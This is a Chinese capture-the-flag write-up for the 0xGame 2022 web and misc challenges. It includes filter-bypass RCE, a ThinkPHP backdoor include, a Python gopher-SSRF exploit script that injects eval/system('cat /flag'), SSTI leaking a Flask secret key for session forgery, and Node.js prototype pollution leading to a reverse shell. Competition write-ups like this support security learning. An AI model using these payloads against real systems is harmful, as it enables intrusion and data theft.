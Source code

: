 # web

## week1

### Where_U_from

经典的关于XFF伪造的题

### Myrobots

如题，robots.txt

### login

访问login.php，登录框(五位数密码很安全吧)

弱口令爆破

### Ez_rce

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$a=$_GET['param1'];
$b=$_POST['param2'];

$a=preg_replace('/system|eval|preg_replace|create_function|array_map|call_user_func|call_user_func_array|array_filter|usort|uasort|file|content|passthru|exec|shell_exec|popen|proc_open|pcntl_exec|assert/is','',$a);
$b=preg_replace('/cat|tac|tail|nl|more|less|head|flag/is','?Q__Q?',$b);

$a($b);
?>
```

$a的黑名单是替换为空了，双写绕过即可

## week2

呃 忘了写了

## week3

### think_about_php

访问`47.96.3.142:8849/public/www.zip`得到源码

![image-20221015174124029](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015174124029.png)

在`controller/Page.php`中直接给出了shell

访问`47.96.3.142:8849/public/index.php/Page/evil`

过滤了括号,能用而且有危险的不多

`include`可以

```php
http://47.96.3.142:8849/public/index.php/Page/evil?f=include "/flag";
```

拿到flag

![image-20221015174727680](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015174727680.png)

### ssrf_me

经典的**SSRF**的源码

```php
<?php 
error_reporting(1);
highlight_file(__FILE__);
$url=$_GET['url'];
if(preg_match('/127|dict|file|ftp|localhost|0.0.0.0/',$url)){
  die('想都别想');
}//evil.php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
curl_close($ch);
echo $output;
```

利用`sudo.cc`(域名指向`127.0.0.1`的)访问**evil.php**

```php
<?php
error_reporting(1);
if('127.0.0.1'!=$_SERVER['REMOTE_ADDR']){
    die('Allow local only');
}
if('GET' === $_SERVER['REQUEST_METHOD']){
  highlight_file(__FILE__);
  die('Invalid request mode');
}
if(isset($_POST['c'])){
    $c=$_POST['c'];
    if(preg_match('/[^\W_]+\((?R)?\)/',$c)){
      eval($c);
    }
    else die('nonono');
}
```

要利用**SSRF传POST**协议，只有**gopher**了

直接给出脚本

```py
import  urllib.parse
import requests
agreement="GOPHER://"
host = "sudo.cc:80"
path = "/evil.php"
parameter='''
c=eval(pos(array_reverse(next(get_defined_vars()))));&hacker=system('cat /flag');
'''
RequestField = f'''
Host:sudo.cc:80
Connection:close
Content-Type:application/x-www-form-urlencoded
Content-Length:{len(parameter)-2}
'''

RequestField = RequestField.split('\n')
RequestField.pop(0)
RequestField.pop(len(RequestField) - 1)
def payload(method):
    if method == 'post':
        payload = agreement+host+'/_POST '+path + ' HTTP/1.1'
        for Filed in RequestField:
            payload = payload+'%0d%0a'+Filed
        payload = payload + "%0d%0a%0d%0a" + parameter
        return (urllib.parse.quote(payload.replace('\n','')))
    if method == 'get':
        payload = agreement+host+'/_GET '+path+'?'+parameter+' HTTP/1.1'
        for Filed in RequestField:
            payload = payload + '%0d%0a' + Filed
        return (urllib.parse.quote(payload.replace('\n','')))


url='http://47.96.3.142:8349/?url='
r=requests.get(url=url+str(payload('post')))
print(r.text)
```

![image-20221015175044589](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015175044589.png)

### fake_session

先试试**SSTI**

![image-20221015175131706](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015175131706.png)

可以看到**'SECRET_KEY': '4hf3j8sgh(rt&%^jf\*dw'**

稍微fuzz了一下，发现`_ request \`都被过滤了，想不出什么绕过的办法了

那就直接伪造session

![image-20221015175642423](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015175642423.png)

访问`/admin`，得到**flag**

![image-20221015175620478](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015175620478.png)

### dont_pollute_me

给出**js**源码，结合题目，就可知道是**nodejs**的污染

```js
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return true;
}
```

![image-20221015175758315](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015175758315.png)

给出了**merge**函数，并且使用是可控的

利用点

![image-20221015180215846](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015180215846.png)

![image-20221015180124884](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015180124884.png)

然后访问`/time`

![image-20221015180220782](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221015180220782.png)

有回显

后面**反弹shell找flag**就行了(吐槽一句，公共环境给**root**是啥意思？)

# misc

### 看不见的字符

全选丢去网站解密

![image-20221003114632907](D:\Typora\note\CTF\web\比赛wp\0xGame2022.assets\image-20221003114632907.png)

### Ezpcap

流量包打开搜索0x就可看到flag



